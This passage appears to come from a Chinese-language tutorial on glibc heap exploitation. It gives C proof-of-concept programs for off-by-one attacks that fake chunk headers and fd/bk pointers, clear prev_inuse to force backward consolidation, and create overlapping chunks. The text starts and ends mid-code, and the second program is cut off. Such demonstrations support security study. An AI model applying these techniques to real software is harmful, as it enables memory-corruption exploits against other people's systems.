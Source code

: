 ```c
}
```
3. 减小使用中chunksize，覆盖了prev_inuse导致向前合并
```c
#include<stdlib.h>
#include<stdio.h>
#include<string.h>
int main(int argc, char const *argv[])
{
    printf("off by one in glibc <2.35\n");
    char *a=malloc(0x108);
    char *b=malloc(0x500);
    char *c=malloc(0x500);
    char * protected_string=a+0xf0;
    strcpy(protected_string,"please change me!");
//------------------------------------------------------------------
    // fake next chunk  prev_size
    *(a+0x100)=0x20;
    //fake size
    *(a+0xe0+0x8)=0x20;
    //assume we know a pointer point to a internel;
    char * fake_chunk=(a+0xe0);
    //fake fd and bk
    *(size_t *)(a+0xe0+0x10)=(size_t)&fake_chunk-0x18;
    *(size_t *)(a+0xe0+0x18)=(size_t)&fake_chunk-0x10;
    //fake prev_inuse to bypass double free;
    *(b+0x4f8)=0x21;
    // overflow!
    *(a+0x108)=0x00;
    //fake next size
    *(c+8)=0x1;

    free(b);
    //-------------------------------------------------------------
    // overflow to b->size
    char *evil=malloc(0x30);
    strcpy(evil,"hahahahahahaha");
    printf("b2:%s\n",a+0xf0);
    return 0;
}
```
4. 增加使用中的chunk size，除了和减少size而导致前向合并攻击外，也可以增加导致和下面的堆块重叠
```c
#include<stdlib.h>
#include<stdio.h>
#include<string.h>
int main(int argc, char const *argv[])
{
    printf("off by one in glibc <2.35\n");
    char *a=malloc(0x108);
    char *b=malloc(0x500);
    char *c=malloc(0x500);
    char * protected_string=a+0xf0;
    strcpy(protected_string,"please change me!");
//------------------------------------------------------------------
    // fake next chunk  prev_size
    *(a+0x100)=0x20;
    //fake size
    *(a+0xe0+0x8)=0x20;
    //assume we know a pointer point to a internel;
    char * fake_chunk=(a+0xe0);
    //fake fd and bk
    *(size_t *)(a+0xe0+0x10)=(size_t)&fake_chunk-0x18;
    *(size_t *)(a+0xe0+0x18)=(size_t)&fake_chunk-0x10;
```